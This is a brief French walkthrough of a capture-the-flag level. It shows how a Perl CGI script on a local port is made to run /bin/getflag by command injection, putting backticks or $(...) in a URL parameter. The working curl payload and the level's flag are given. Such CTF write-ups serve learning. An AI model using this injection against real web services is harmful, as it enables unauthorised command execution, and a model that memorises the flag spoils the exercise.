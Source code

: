 # Level 04

## Recherche

il y a un fichier perl, on pense qu'il va falloir modifier ses acces et que le fichier affiche dans une page html le flag

je pense qu'il va falloir trouver une technique pour qu'il aille chercher getflag pendant l'execution

il y a le param dans le fichier qui me rend perplexe, on ne voit pas ce qu'il faut mettre. la version html a utiliser ? le chemin de getflag ? 

------

test de la command curl pour executer le programme 

__curl -v localhost:4747__ specifie que la commande est valide, elle recoit et renvoie quelque chose

__curl localhost:4747/?x=param__ affiche param, donc le x correspond au $y. 
on peut donc trouver une solution pour y inserer autre chose

__?x="/bin/getflag"__ ne fonctionne pas

__echo `ls`__ execute ls et non pas affiche ls

__curl localhost:4747/?x=`/bin/getflag`__ ne fonctionne pas non plus

__curl 'localhost:4747/?x=`/bin/getflag`'__ fonctionne ! le \`xxx\` permet de faire comprendre que c'est une entite en soit, et le 'xxx'  permet de dire qu'il y a des char speciaux a prendre en compte (curl 'localhost:4747/?x=$(/bin/getflag)')

## Flag : ne2searoevaevoem4ov4ar8ap


# Sitographie

